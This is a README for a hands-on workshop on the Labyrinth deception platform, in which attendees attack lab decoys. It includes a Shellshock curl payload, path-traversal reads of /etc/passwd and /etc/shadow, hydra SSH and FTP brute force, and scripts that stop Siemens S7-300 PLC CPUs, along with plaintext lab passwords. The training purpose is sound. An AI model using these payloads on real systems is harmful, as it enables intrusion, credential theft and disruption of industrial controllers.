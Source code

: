 # Welcome to the Labyrinth Deception Platform workshop
All you may need for the workshop is available in this repository.
## Getting access
Our lab setup looks this way:

Please navigate to our demo stand:
1. **Credentials to the AdminVM**

You may use any web browser of your choice.
```
URL: https://demo.labyrinth.tech/
Username: user
Password: 2~8uH'14leki
```
> [!NOTE]
> Feel free to create your own users here by going to the Settings->Users.

2. **Credentials to the attacking host**

From this host you will perform your attacks. Please use SSH and following credentials:
```
Host: warrior.labyrinth.tech
Username: user
Password: K4H*91kYg/j*
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own terminology that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **Admin VM (Management Console)**  = main module that controls the system.
6. **Worker VM** = node on which Points are running.

## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
Several tools can be used. For example, [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: deception using breadcrumbs
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: web deception using UWP
UWP stands for Universal Web Point. It is a decoy type, developed by the Labyrinth Security Solutions team, that allows to emulate anything that has a web interface just in seconds.

In this case we will be trying to exploit [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```
#### Case 4: interaction with MQTT broker
Subscribe to all topics:
```
mosquitto_sub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Publish a topic:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Case 5: S7comm malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is also available on your VM:
```
cd scripts
```
Simply run it: 
```
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
More about S7comm packet structure: [The Siemens S7 Communication - Part 1 General Structure](http://gmiru.com/article/s7comm/) and [The Siemens S7 Communication - Part 2 Job Requests and Ack Data](http://gmiru.com/article/s7comm-part2/)

#### [Advanced] Case 6: gathering info from web server

1. Find web server
```
sudo nmap -sS -sC -p80,443 <Honeynet subnet> -vvv 
```
Also search for an SSH host: 
```
sudo nmap -sS -sC -p22 <Honeynet subnet> -vvv 
```
2. Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Bonus step: search for additional web path:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
Bonus step: reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 7: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP

Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
file <file>
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 

